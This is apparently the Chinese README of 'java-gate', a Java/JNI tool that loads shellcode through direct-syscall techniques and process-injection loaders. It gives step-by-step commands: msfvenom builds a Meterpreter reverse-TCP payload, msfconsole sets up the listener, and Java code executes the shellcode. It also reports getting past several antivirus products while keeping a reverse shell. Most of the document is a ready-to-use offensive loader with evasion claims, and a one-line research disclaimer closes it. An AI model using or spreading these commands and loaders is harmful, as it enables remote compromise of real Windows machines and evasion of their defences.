





# java-gate


`java-gate` 项目可以通过简单的 `Java` 代码实现 `Hell's Gate` 相关技术（直接的系统调用）

```java
byte[]shellcode=new byte[]{(byte)0xfc,(byte)0x48...};
HellsGate gate=new HellsGate(shellcode);
gate.exec();
```

并且支持多种由 `Hell's Gate` 演变而来的技术，如光环之门 `Halo's Gate` 回收之门 `Recycled Gate`
塔尔塔罗斯之门 `Tartarus Gate`
等，除了系统调用相关的功能，使用 `C` 和 `NASM/MASM` 汇编编译和构建，通过 `JNI` 在 `Java` 层调用。
另外提供了很多常见的 `Shellcode` 注入方式，例如 `APC` 注入，和远程线程注入等技术。各种底层技术都可以通过简单的 `Java` 代码做到。

## 介绍

为什么以 `java-gate` 命名：该项目主要集成了各种直接系统调用相关的技术，如地狱之门，光环之门等，因此以`Java`
之门命名，另外可以理解为 `Java` 与底层之间的一扇门。

注意：

- 该项目仅支持64位 `Windows` 和64位 `JVM` （由于 `JNI` 规定64位 `JVM` 只能加载64位 `DLL`）
- 建议使用64位的`shellcode`（例如`windows/x64/meterpreter/reverse_tcp`）
- 使用任意方式加载 `shellcode` 都有可能会导致 `JVM` 崩溃（例如 `shellcode` 没有恢复现场）

## 快速开始

(1) `Maven` 使用 `jitpack` 仓库

```xml

<repositories>
    <repository>
        <id>jitpack.io</id>
        <url>https://jitpack.io</url>
    </repository>
</repositories>
```

(2) 导入项目

```xml

<dependency>
    <groupId>com.github.4ra1n</groupId>
    <artifactId>java-gate</artifactId>
    <version>0.0.1</version>
</dependency>
```

(3) 获取 `shellcode`

这里以 `meterpreter` 为例

```shell
msfvenom --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR-IP LPORT=YOUR-PORT -f java
```

(4) 启动 `msfconsole` 监听

这里以 `meterpreter` 为例

```shell
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST 0.0.0.0;set LPORT YOUR-PORT;run;"
```

(5) 编写测试程序

```java
package me.n1ar4;

import me.n1ar4.gate.core.HellsGate;

public class Main {
    public static void main(String[] args) {
        byte buf[] = new byte[]
                {
                        (byte) 0xfc, (byte) 0x48, ...
                };
        HellsGate gate = new HellsGate(buf);
        gate.exec();
    }
}
```

(6) 上线

`msfconsole` 成功上线

系统调用部分如下，使用方式和上文类似，更换类名即可

| Module        | Class                           | Description   | Optional |
|:--------------|:--------------------------------|:--------------|:---------|
| hells-gate    | me.n1ar4.gate.core.HellsGate    | Hells Gate    | /        |
| halos-gate    | me.n1ar4.gate.core.HalosGate    | Halos Gate    | /        |
| recycled-gate | me.n1ar4.gate.core.RecycledGate | Recycled Gate | /        |
| ssn-syscall   | me.n1ar4.gate.core.SSNSyscall   | SSN Syscall   | /        |
| tartarus-gate | me.n1ar4.gate.core.TartarusGate | Tartarus Gate | /        |

加载器部分如下，使用方式和上文类似，更换类名即可

| Module     | Class                                | Description               | Optional |
|:-----------|:-------------------------------------|:--------------------------|:---------|
| apc1       | me.n1ar4.gate.loader.APC1Loader      | 通过NtTestAlert的APC注入       | /        |
| apc2       | me.n1ar4.gate.loader.APC2Loader      | 简单的基于线程的APC注入             | /        |
| crt        | me.n1ar4.gate.loader.CRTLoader       | 简单的远程线程注入                 | 进程名称     |
| divide     | me.n1ar4.gate.loader.DivideLoader    | 创建进程并远程线程注入该进程            | /        |
| early-bird | me.n1ar4.gate.loader.EarlyBirdLoader | 创建新进程并APC注入               | /        |
| etwp       | me.n1ar4.gate.loader.EtwpLoader      | 基于EtwpCreateEtwThread函数注入 | /        |
| rip        | me.n1ar4.gate.loader.RIPLoader       | 修改线程上下文RIP寄存器执行shellcode  | /        |

命令行工具的使用如下

```shell
java -jar java-gate.jar [module] [shellcode-hex-string] [optional]
```

由于 `JVM` 可能崩溃，有一种创建新进程的办法执行

```shell
java -jar java-gate.jar run-new-jvm [module] [shellcode-hex-string]
```

这同样是一种思路，需要在自定义代码中运行本项目可以参考代码 `JavaGate#runNewJVM`

## 构建

在 `Release` 中存在打包好的版本，但如果你不放心，或者需要添加自己的功能，可以参考这里手动构建

请注意，该项目仅适用于 `Windows` 64位和 `JVM` 64位环境，因此只能在该环境下编译和构建

**(1) MSVC x64**

`CMake Toolchains` 使用 `MSVC x64` 工具，大部分汇编基于 `MSVC` 的 `ml64` 编译器

**(2) CMake 3.x**

`C`和汇编代码使用`CMake`编译和构建，生成 `JNI` 对应的 `DLL` 文件，建议使用 `CLion`

**(3) NASM**

大部分汇编使用 `MASM` 编译，但部分汇编使用 `NASM` 编译，需要单独下载和配置到 `PATH`

**(4) JDK 8 & Maven**

`Java` 部分代码使用 `Java 8` 和 `Maven` 进行构建，建议使用 `IDEA`

**(5) Python 3.x**

本项目使用 `Python` 做一些辅助工具，实际上不是必须的选项

## 一些测试

`Huorong` 测试，静态和执行 `meterpreter` 反弹 `shell` 都没有提示

<div align="center">
  
</div>

`360` 静态可过，执行时有概率提示 `Java` 程序存在风险，但可以正常运行反弹 `shell`

<div align="center">
  
</div>

`Windows Defender` 测试，静态可过，执行时有概率报毒，但是可以反弹 `shell`

<div align="center">
  
</div>

`Kaspersky` 静态可过，可以弹计算器，但执行 `meterpreter` 反弹 `shell` 时被拦截

<div align="center">
  
</div>

`VirusTotal` 静态全绿（但其实**没有意义**，因为这是一个 `jar` 而不是 `exe` ）

<div style="text-align: center;">
  
</div>

## 参考与感谢

非常感谢以下优秀的项目提供的代码（大部分代码都参考了这些）

- https://github.com/am0nsec/HellsGate
- https://github.com/boku7/AsmHalosGate
- https://github.com/thefLink/RecycledGate
- https://github.com/trickster0/TartarusGate
- https://github.com/janoglezcampos/c_syscalls

## 免责声明

此工具仅作为网络安全攻防研究交流，请勿用于非法用途
